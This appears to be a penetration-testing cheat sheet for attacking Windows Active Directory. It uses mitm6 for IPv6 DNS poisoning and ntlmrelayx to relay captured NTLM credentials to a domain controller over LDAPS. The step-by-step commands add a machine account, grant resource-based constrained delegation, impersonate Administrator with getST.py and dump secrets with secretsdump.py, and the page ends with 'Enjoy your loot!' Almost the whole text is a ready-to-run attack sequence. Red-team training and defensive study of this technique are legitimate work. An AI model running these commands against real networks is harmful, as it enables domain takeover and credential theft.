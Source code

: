 ### Essentially, we become Man-in-the-Middle using IPv6

## Tools: mitm6, ntlmrelayx

# DNS Poisoning - Relay delegation with mitm6

## Tool: https://github.com/dirkjanm/mitm6

## Requirements

#### 1) IPv6 enabled (Windows prefers IPV6 over IPv4)

#### 2) LDAP over TLS (LDAPS)

### ntlmrelayx relays the captured credentials to LDAP on the domain controller, uses that to create a new machine account, print the account's name and password and modifies the delegation rights of it.

## Steps

 - mitm6 -hw ws02 -d lab.local --ignore-nofqnd

 - ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad

 - ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad --add-computer

### Now granting delegation rights and then do a RBCD

 - ntlmrelayx.py -t ldaps://dc01.lab.local --delegate-access --no-smb-server -wh attacker-wpad

 - getST.py -spn cifs/target.lab.local lab.local/GENERATED\$ -impersonate Administrator

 - export KRB5CCNAME=administrator.ccache

 - secretsdump.py -k -no-pass target.lab.local


## Steps: 

#### 1) 

    sudo mitm6 -d DOMAIN

#### 2) 

    ntlmrelayx.py -6 -t ldaps://DC_IP -wh FAKE.DOMAIN -l FOLDER (Run this first!)

#### 3) Enjoy your loot! (Enumerates EVERYTHING that tries to authenticate against the target)

